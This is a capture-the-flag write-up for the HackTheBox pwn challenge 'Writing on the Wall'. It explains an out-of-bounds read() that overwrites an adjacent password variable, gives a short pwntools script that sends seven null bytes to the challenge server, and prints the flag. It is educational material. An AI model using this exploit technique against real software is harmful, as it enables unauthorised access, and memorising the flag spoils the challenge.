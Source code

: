 # Writing on the Wall
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d24cac08-522a-4ee3-8295-b10a354eb6eb)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Out-of-Bound (OOB) Write.
3. read() vuln.
4. Local variable overwrite.

## DESCRIPTION:
<p align="justify">As you approach a password-protected door, a sense of uncertainty envelops you—no clues, no hints. Yet, just as confusion takes hold, your gaze locks onto cryptic markings adorning the nearby wall. Could this be the elusive password, waiting to unveil the door's secrets?</p>

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3ee7ab91-a225-49b5-905c-4efbfa5c2190)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0f7df9ca-e75c-44bc-9f79-d2d1de4fb592)


2. Upon reviewing the decompiled code in ghidra, we can clearly spot the vuln at the read() usage. It introduced a OOB vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cb41ecaf-6ff5-44d2-95a3-a917fc690d96)


3. It's quite straightforward then.
4. Reviewing the stack, seems the position of **password** is adjacent below **buffer**. Hence, hitting RBP shall overwrite **password**.
5. Remember about read() vuln, it reads data until it meet a NULL byte.
6. So then, utilizing the OOB could overwrite the **password** value entirely.
7. The flow is to pass 7 bytes of `\x00`, so this should happen:

```
buffer[6]
password = xxxxxxxxxx

read() --> we passed "\x00" * 7

# password is now overwritten
passowrd = 0000000
buffer = 0000000

strcmp(buffer,password) --> is comparing 0 and 0, shall resulting to true.
```

8. Great! here's the crafted exploit script.

> SCRIPT

```py
from pwn import *

exe = './writing_on_the_wall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

# sh = process(exe)
sh = remote('94.237.61.226', 48898)

sh.sendline(b'\x00' * 7)

sh.interactive()
```

> REMOTE TEST

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fe79492f-ec2c-48a2-aa1e-fd400e38fa01)


9. We've pwned it!

## FLAG

```
HTB{4n0th3r_br1ck_0n_th3_w4ll}
```
